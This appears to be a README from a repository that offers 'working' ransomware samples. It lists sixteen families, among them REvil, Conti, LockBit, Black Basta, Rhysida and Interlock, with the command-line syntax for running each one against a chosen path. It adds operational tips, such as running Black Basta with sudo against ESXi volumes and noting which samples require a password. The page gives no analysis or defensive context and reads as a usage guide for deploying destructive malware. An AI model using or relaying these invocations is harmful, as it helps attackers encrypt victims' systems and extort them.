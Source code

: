 Working Ransomware and Usage
1 Revil --path /path/
2 Kuiper --help
3 Icefire -p /path/
4 HelloKitty /path/
5 Gonna_Cry
6 ARCrypter /path/
7 sEXI /path/
8 Rhysidia -d /path/
9 Kuiper version B --help
10 conti --path /path/
11 blackbasta : use sudo ./blackbasta.elf : only encrypts /vmfs/volume/ directory so make sure that exists
12 lockbit -i /path/
13 MarioLocker /path/ Note: It is a ransomware targetting EsXi servers thus only encrypts .vsdm files
14 Conti2 --path /path/
15 Fog : Requires Password
16 Interlock : Requires Password

